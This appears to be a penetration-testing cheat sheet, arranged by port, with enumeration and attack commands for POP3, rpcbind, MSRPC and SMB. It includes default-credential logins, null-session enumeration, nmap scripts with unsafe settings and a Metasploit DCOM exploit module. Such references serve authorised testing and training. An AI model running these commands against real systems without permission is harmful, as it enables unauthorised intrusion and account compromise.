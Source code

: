 ### Port 110 - POP3

```sh
telnet $IP
USER pelle@$IP
PASS admin

or:

USER admin
PASS admin
```
### Port 111 - Rpcbind

```sh
rpcinfo -p $IP
rpcclient -U "" $IP
	srvinfo
	enumdomusers
	getdompwinfo
	querydominfo
	netshareenum
	netshareenumall
```

### Port 135 - MSRPC

```bash
nmap $IP --script=msrpc-enum
# Msf
msf > use exploit/windows/dcerpc/ms03_026_dcom
```
### Port 139/445 - SMB
```bash
# Enum hostname
enum4linux -n $IP
nmblookup -A $IP
nmap --script=smb-enum* --script-args=unsafe=1 -T5 $IP

# Get Version
smbver.sh $IP
Msfconsole;use scanner/smb/smb_version
ngrep -i -d tap0 's.?a.?m.?b.?a.*[[:digit:]]' 
smbclient -L \\\\$IP

# Get Shares
smbmap -H  $IP -R <sharename>
echo exit | smbclient -L \\\\
smbclient \\\\$IP\\<share>
smbclient -L //$IP -N
nmap --script smb-enum-shares -p139,445 -T4 -Pn $IP
smbclient -L \\\\$IP\\

# Check null sessions
smbmap -H $IP
rpcclient -U "" -N $IP
smbclient //$IP/IPC$ -N

# Exploit null sessions
enum -s $IP
enum -U $IP
enum -P $IP
enum4linux -a $IP
/usr/share/doc/python3-impacket/examples/samrdump.py $IP
```